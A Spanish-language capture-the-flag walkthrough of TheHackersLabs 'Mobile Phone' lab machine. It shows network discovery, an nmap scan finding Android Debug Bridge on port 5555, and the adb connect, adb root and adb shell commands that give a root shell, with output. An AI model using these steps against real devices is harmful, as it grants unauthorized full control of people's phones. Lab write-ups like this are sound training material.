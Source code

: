 Lo primero que haremos sera ir a la pagina de "TheHackersLabs" y concretamente a la siguiente direccion para descargar la maquina "Mobile Phone":

https://thehackerslabs.com/wp-content/uploads/2024/06/The%20Hackers%20Labs%20-%20Mobile%20Phone.zip

Una vez descargada (es una ".ova"), y montada en nuestro programa de maquinas virtuales, empezaremos usando un ARP-SCAN (o NETDISCOVER) para hallar la IP de la maquina victima:
```
arp-scan -I eth0 --localnet
netdiscover -i eth0 -r 192.168.1.0/24
```
Despues, pasaremos a realizar un NMAP:
```
nmap -p- --open -sS -sC -sV --min-rate 3000 -n -vvv -Pn IPMAQUINAVICTIMA -oN NOMBREDEARCHIVO
```
descubriendo el siguiente puerto abierto:
```
Discovered open port 5555/tcp on 192.168.1.145
```
En Android, el puerto 5555 es el puerto por defecto de "adb" que es una herramienta que se utiliza para conectar nuestro movil con nuestro PC, de tal forma que podamos cambiarle la ROM, o actualizar aplicaciones, entre otras cosas.

Como informacion adicional tenemos:
```
PORT     STATE SERVICE  REASON         VERSION
5555/tcp open  freeciv? syn-ack ttl 64
MAC Address: 08:00:27:97:06:EB (Oracle VirtualBox virtual NIC)
```
Bien, entonces vamos a ir a la pagina "HackTricks" para investigar un poco mas el servicio que corre por este puerto, y concretamente a esta direccion:
https://book.hacktricks.xyz/v/es/network-services-pentesting/5555-android-debug-bridge

Si leemos, vemos que tal y como hemos dicho al principio, este puerto hace referencia al Android Debug Bridge (adb), y que a dia de hoy, si se esta ejecutando este servicio y nos podemos conectar al dispositivo, es relativamente sencillo obtener una shell dentro del sistema.

Asi que vamos a probar si funciona, empezando por escribir en la terminal el comando:
```
adb connect 192.168.1.145   <=== Igual nos piden instalar "adb". OJO !!
```
recibiendo la siguiente informacion por pantalla:
```
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 192.168.1.145:5555
```
Perfecto, nuestro siguiente paso ahora seria intentar escalar privilegios y convertirnos en administrador "root". Para ello escribimos:
```
adb root
```
y parece que funciona:
```
restarting adbd as root
```
Y finalmente nos quedaria intentar conseguir una "shell", que haremos con el comando:
```
adb shell
```
Donde vemos que funciona, incluso pudiendo navegar perfectamente por sus directorios:
```
root@x86_64:/ # whoami
root

root@x86_64:/ # ls
acct
cache
charger
config
d
data
default.prop
dev
etc
file_contexts
fstab.android_x86_64
init
init.android_x86_64.rc
init.bluetooth.rc
init.environ.rc
init.rc
init.superuser.rc
init.trace.rc
init.usb.configfs.rc
init.usb.rc
init.zygote32.rc
init.zygote64_32.rc
lib
mnt
oem
proc
property_contexts
sbin
sdcard
seapp_contexts
selinux_version
sepolicy
service_contexts
storage
sys
system
ueventd.android_x86_64.rc
ueventd.rc
vendor

root@x86_64:/ # cd storage

root@x86_64:/storage # ls
emulated
self

root@x86_64:/storage # cd self
root@x86_64:/storage/self # ls
primary

root@x86_64:/storage/self # cd primary
root@x86_64:/storage/self/primary # ls
Alarms
Android
DCIM
Download
Movies
Music
Notifications
Pictures
Podcasts
Ringtones
storage

root@x86_64:/storage/self/primary # 
```
Y listo !! Ya tendriamos esta maquina Android hecha.
Como se ha visto, es una maquina muy sencillita y esta bien como primer contacto con Android, ya que con tres simples comandos hemos conseguido tener acceso total a ella.
